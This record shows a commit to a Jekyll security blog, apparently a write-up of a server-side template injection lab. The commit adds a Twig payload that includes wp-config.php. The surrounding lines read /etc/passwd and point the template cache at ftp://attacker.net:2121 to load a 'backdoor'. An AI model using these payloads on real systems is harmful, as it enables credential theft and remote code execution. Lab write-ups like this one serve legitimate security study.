

Before and after one commit to CamoCatX/camocatx.github.io, a Jekyll site: the page built from blog/_posts/2023-04-24-expert-lab-server-side-template-injection-with-a-custom-exploit.md, in a window 1280 px wide and 900 px high, scrolled down 3840 px. Shown: the whole window, without its empty margins (108-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Edit a blog post

```diff
--- a/blog/_posts/2023-04-24-expert-lab-server-side-template-injection-with-a-custom-exploit.md
+++ b/blog/_posts/2023-04-24-expert-lab-server-side-template-injection-with-a-custom-exploit.md
@@ -96,6 +96,7 @@ We search for some common Twig payloads and test them in the above section:
 
 #File read
 "{{'/etc/passwd'|file_excerpt(1,30)}}"@
+{{include("wp-config.php")}}
 
 #Exec code
 {{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
